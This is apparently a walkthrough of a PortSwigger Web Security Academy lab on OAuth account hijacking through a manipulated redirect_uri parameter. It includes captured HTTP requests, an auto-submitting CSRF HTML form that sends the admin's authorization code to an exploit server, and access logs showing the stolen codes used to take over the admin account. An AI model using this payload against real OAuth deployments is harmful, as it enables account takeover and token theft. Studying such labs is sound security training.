





# OAuth account hijacking via redirect_uri

## Lab Description :


## Solution :

Recon -
On clicking My-Account, the client service provider starts the authorization request .
```
GET /auth?client_id=ioxlc8nxu9vqpn2iannk6&redirect_uri=https://0a0d007903e19d4b819ee0f2000900fa.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/2
Host: oauth-0ada00bb030d9d1b81e2de3302e2007a.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: _session=O2bnIQAJVrm-7Kx763gMt; _session.legacy=O2bnIQAJVrm-7Kx763gMt
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
```
The identity provider asks us to enter username and password.



In the next step , it asks for user's consent for the permissions that are requested by the client application.



Upon accepting the permissions, the oauth identity provider sends the token to the client application.
```
GET /oauth-callback?code=WcKAewLHsci6HkT5ewuqd5DKXsVVfFlS-GZIP-krx6x HTTP/2
Host: 0a4700e20393dd3d809c9e9400e700bd.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: session=Wr1VoKWOhxfqDKZJogjRQNUWnmxlEE95
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
we are now logged-in to the website.

So next time when we click My-Account, we are automatically logged in.

##### Exploitation -

In the authorization request, we can now check if the redirect_uri parameter is vulnerable to openredirect vulnerability. If it is, then we can smuggle the authorization token to our attacker server & use it to impersonate/ retreive sensitive information of the victim user.

Send the authorization request to repeater tab. Change the redirect_uri parameter to exploit server's address - https://exploit-0a3a002b03eeddda80099d41011a0032.exploit-server.net/exploit & send the request.

Notice that the token is sent to our exploit server address. This confirms that we can steal Oauth authorization tokens.
```
152.58.208.9    2023-09-22 18:22:09 +0000 "GET / HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0"
152.58.208.9    2023-09-22 18:22:09 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0"
152.58.208.98   2023-09-22 18:33:07 +0000 "GET /exploit?code=NuRYCmoK5_4DWBlQVJQ06MDZDORJFcjxtVwnW3bW3rN HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0"
152.58.208.98   2023-09-22 18:33:15 +0000 "POST / HTTP/1.1" 302 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0"
```
Stealing admin's token -

Since the authorization request does not have an state paraemter, we can perform an CSRF attack on the admin user & trick him to click on the link where the admin will trigger the Oauth flow & then the token will be sent to our exploit server(since we have changed the redirect_URI parameter to our exploit-server address).

```<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://oauth-0a99001203b0dd4680989cc0025b008f.oauth-server.net/auth">
      <input type="hidden" name="client&#95;id" value="ev5avdz74a9ohun88ime1" />
      <input type="hidden" name="redirect&#95;uri" value="https&#58;&#47;&#47;exploit&#45;0a3a002b03eeddda80099d41011a0032&#46;exploit&#45;server&#46;net&#47;exploit" />
      <input type="hidden" name="response&#95;type" value="code" />
      <input type="hidden" name="scope" value="openid&#32;profile&#32;email" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
On viewing Access-log, we can see that the admin indeed clicked on it & we have the admin's token in our server logs.
```
10.0.3.221      2023-09-23 15:19:54 +0000 "GET /exploit?code=WcKAewLHsci6HkT5ewuqd5DKXsVVfFlS-GZIP-krx6x HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
```
Now visit - ``https://0a4700e20393dd3d809c9e9400e700bd.web-security-academy.net/oauth-callback?code=WcKAewLHsci6HkT5ewuqd5DKXsVVfFlS-GZIP-krx6x``

Note that the code ``WcKAewLHsci6HkT5ewuqd5DKXsVVfFlS-GZIP-krx6x`` is the admin's token which we stole by redirecting it to our exploit server.

We can now see the Admin panel option.



Go to the admin panel & delete the user carlos to solve the lab.



#### Visit The Next Page For The Next Level :)
